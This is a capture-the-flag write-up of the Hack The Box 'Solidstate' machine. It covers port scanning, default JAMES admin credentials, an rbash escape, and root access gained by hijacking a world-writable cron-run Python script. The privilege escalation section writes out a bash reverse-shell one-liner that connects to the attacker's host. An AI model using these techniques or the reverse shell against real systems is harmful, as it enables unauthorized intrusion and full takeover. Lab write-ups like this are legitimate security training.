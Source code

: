 Title: HTB Solidstate box writeup
Tags: oscp, htb, cron, james, pop3, rbash
Summary: A very lab-alike box
Date: 2020-09-21 15:00
Status: published

# Enumeration
As always, starting with the full TCP range scan:
```text
    Nmap 7.80 scan initiated Sun Sep 20 20:28:25 2020 as: nmap -sS -p- -oA enum/nmap-ss-all 10.10.10.51
    Nmap scan report for solidstate.htb (10.10.10.51)
    Host is up (0.056s latency).
    Not shown: 65529 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    25/tcp   open  smtp
    80/tcp   open  http
    110/tcp  open  pop3
    119/tcp  open  nntp
    4555/tcp open  rsip
    Nmap done at Sun Sep 20 20:29:04 2020 -- 1 IP address (1 host up) scanned in 38.35 seconds
```
And continuing with open ports:
```text
    Nmap 7.80 scan initiated Sun Sep 20 20:30:19 2020 as: nmap -sC -A -T4 -p22,25,80,110,119,4555 -oA enum/nmap-sCAT4-open 10.10.10.51
    Nmap scan report for solidstate.htb (10.10.10.51)
    Host is up (0.054s latency).
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
    |   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
    |_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
    25/tcp   open  smtp        JAMES smtpd 2.3.2
    |_smtp-commands: solidstate Hello solidstate.htb (10.10.14.34 [10.10.14.34]), 
    80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Home - Solid State Security
    110/tcp  open  pop3        JAMES pop3d 2.3.2
    119/tcp  open  nntp        JAMES nntpd (posting ok)
    4555/tcp open  james-admin JAMES Remote Admin 2.3.2
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.2 (95%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    TRACEROUTE (using port 25/tcp)
    HOP RTT      ADDRESS
    1   54.21 ms 10.10.14.1
    2   54.37 ms solidstate.htb (10.10.10.51)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Sun Sep 20 20:30:47 2020 -- 1 IP address (1 host up) scanned in 28.15 seconds
```

# Exploitation
After some manual inspection of these services, it turned out that creds for James admin console are `root:root`:

![james root](/cstatic/htb-solidstate/james-root.png)

Mindy creds work for SSH, but we are logging in into restricted shell:

![rbash](/cstatic/htb-solidstate/mindy-rbash.png)

However, even this restricted shell allows to grab user flag since `cat` is allowed. 
[This exploit](https://www.exploit-db.com/exploits/35513) allows us to get out of rbash as mindy. I've
also tried to poke around with initial shell, but haven't got any useful info with `cat` and `ls` only.
`env` looks broken in there, more like symlink to nonexistent file. 

# Privilege escalation
There's an interesting world-writable file at `/opt/tmp.py`:
```python
    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
```
I've already noticed that `/tmp` is being cleared frequently and this script seems to be running via
cron. Added usual bash revshell oneliner `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.34/443 0>&1'` and
got a root shell:

![root shell](/cstatic/htb-solidstate/root-shell.png)
